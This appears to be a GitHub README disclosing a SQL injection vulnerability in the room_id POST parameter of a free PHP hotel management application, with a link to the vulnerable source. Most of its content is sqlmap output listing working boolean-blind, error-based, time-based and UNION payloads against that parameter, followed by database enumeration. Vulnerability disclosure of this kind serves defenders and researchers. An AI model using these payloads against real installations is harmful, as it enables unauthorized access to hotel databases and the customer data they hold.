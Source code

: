 # Sparkz-Hotel-Management-Sqlinjection

## Sqlinjection location 

![image](https://user-images.githubusercontent.com/81155906/182787234-d85025be-ec80-4736-8d4d-48dcbd21b44a.png)


#### Sqlmap Attack

![image](https://user-images.githubusercontent.com/81155906/182786091-485751ab-dff5-475f-b5b9-9c6881a31ef3.png)


```
[14:55:46] [INFO] parsing HTTP request from '1.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q]

[14:55:47] [INFO] resuming back-end DBMS 'mysql'
[14:55:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: #1* ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: room_id=1' AND 9895=9895 AND 'PWpx'='PWpx&cutomerDetails=

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: room_id=1' AND (SELECT 6265 FROM(SELECT COUNT(*),CONCAT(0x71786a7071,(SELECT (ELT(6265=6265,1))),0x7176707171,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'XdsA'='XdsA&cutomerDetails=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: room_id=1' AND (SELECT 1001 FROM (SELECT(SLEEP(5)))bHDF) AND 'RTwo'='RTwo&cutomerDetails=

    Type: UNION query
    Title: Generic UNION query (NULL) - 24 columns
    Payload: room_id=-9083' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71786a7071,0x4b726971455679645047596864785869574e477a534a6b54517166705a454759614c5376504d634a,0x7176707171),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -&cutomerDetails=
---
[14:55:48] [INFO] the back-end DBMS is MySQL
web application technology: PHP 7.3.4, Apache 2.4.39
back-end DBMS: MySQL >= 5.0
[14:55:48] [INFO] fetching database names
available databases [1]:
[*] information_schema
```

## Code Download

https://www.sourcecodester.com/php/15551/multi-language-hotel-management-software-free-download-source-code.html





